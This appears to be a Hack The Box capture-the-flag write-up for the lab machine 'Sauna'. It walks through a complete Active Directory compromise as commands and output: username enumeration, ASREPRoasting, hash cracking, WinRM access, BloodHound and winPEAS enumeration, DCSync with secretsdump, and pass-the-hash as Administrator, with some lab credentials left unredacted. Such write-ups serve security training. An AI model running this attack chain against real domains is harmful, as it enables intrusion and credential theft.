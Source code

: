 ```yaml
---
title: HTB - Sauna
date: 2024-03-17
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, sauna, nmap, username-generator, username-anarchy, winpeas, getnpusers, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/sauna
published: true
image:
    path: machine_info.png
---
```


## HTB: Sauna

>[Sauna Box](https://app.hackthebox.com/machines/229)

<!-- ![](sauna_htb_diagram.png){: .normal} -->

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|Enumerated web server|[Nmap](https://github.com/nmap/nmap), [Mozilla](https://www.mozilla.org/en-GB/firefox/new/)|Obtained first and last names of potential users|
|2|Created custom username list|[Username-Generator](https://github.com/shroudri/username_generator), [Username-Anarchy](https://github.com/urbanadventurer/username-anarchy)|-|
|3|[ASREPRoasting]|[GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)|Obtained the TGT ticket of _fsmith_|
|4|Hash cracked|[Hashcat](https://github.com/hashcat/hashcat)|Obtained clear text password|
|5|Logged into the domain via WinRM|[evil-winrm](https://github.com/Hackplayers/evil-winrm)|Obtained initial foothold|
|6|Credentialed domain enumeration|[SharpHound.py](https://github.com/BloodHoundAD/SharpHound), [BloodHound](https://github.com/BloodHoundAD/BloodHound)|Enumerated potential privilege escalation paths|
|7|Executed privileged escalation path|[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)|Obtained credentials of _svc\_loanmgr_|
|8|DCSync attack|[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)|Compromised domain|

## Detailed attack chain reproduction steps

Performed a TCP all-ports scan and noted that:
  * Port 80 is an IIS web server with the title _Egotistical Bank_
  * Port 5985 allows WinRM access

```bash
$ sudo nmap 10.10.10.175 -T4 -A -open -p-

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-17 16:06:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
49744/tcp open  msrpc         Microsoft Windows RPC
```

Enumerated the web server and created a custom user list based on the names found (Figure 1):

![Figure 1: First and last names found on the site.](sauna_site_users.png?600)

```bash
# created a list with the names found
$ cat site_users
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb

# created username combinations based on the first and last name
$ username-generator -w site_users > user_gen.lst
$ username-anarchy -i site_users >> user_gen.lst

# deduplicated the generated user list
$ sort user_gen.lst | uniq > user_combined.lst
```

Performed an **ASREPRoasting** attack:

```bash
$ getnpusers EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.10.10.175 -no-pass -usersfile user_combined.lst | grep asrep
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 fsmith_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6-850-gfafb277e0) starting

<SNIP>

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678:Th<REDACTED>23
```

Logged in via WinRM using and compromised the _**user.txt**_ file:

```bash
# logging in the target
$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23

<SNIP>

# compromising user.txt
*Evil-WinRM* PS C:\Users\FSmith\Documents> type ../Desktop/user.txt
0f5<REDACTED>48f
```

Collected domain information and generated visual representations of potential attack paths:

```bash
# uploading binary to target
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload SharpHound.exe

Info: Uploading /home/kali/htb/sauna/SharpHound.exe to C:\Users\FSmith\Documents\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

# executing binary
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\SharpHound.exe -c all

<SNIP>

2024-03-17T11:42:59.9578257-07:00|INFORMATION|SharpHound Enumeration Completed at 11:42 AM on 3/17/2024! Happy Graphing!

# downlading output files to attack host
*Evil-WinRM* PS C:\Users\FSmith\Documents> download 20240317114259_BloodHound.zip

Info: Downloading C:\Users\FSmith\Documents\20240317114259_BloodHound.zip to 20240317114259_BloodHound.zip

Info: Download successful!
```

The below attack path (Figure 2) required SYSTEM-level access in order to be exploited:

![Figure 2: Potential attack path from fsmith user.](sauna_fsmith_attack_path.png)

A service account with DCSync rights was found (_**svc\_loanmgr**_) (Figure 3):

![Figure 3: A principal with DCSync rights over the domain.](sauna_dcsync_rights.png)

Performed further system enumeration and discovered _svc\_loanmgr_'s **clear text password**:

```bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload winPEAS.exe

Info: Uploading /home/kali/htb/sauna/winPEAS.exe to C:\Users\FSmith\Documents\winPEAS.exe

Data: 2549076 bytes of 2549076 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEAS.exe

<SNIP>

ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Mon<REDACTED>nd!

<SNIP>
```

Perfomed the **DCSync attack** and obtained the _**Administrator**_'s NTLMv2 hash:

```bash
$ secretsdump egotistical-bank.local/svc_loanmgr@10.10.10.175
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad<REDACTED>4ee:823<REDACTED>98e:::
```

Used _Administrator_'s hash to login via WinRM and compromised the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.175 -u administrator -p aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
f14<REDACTED>b8d5
```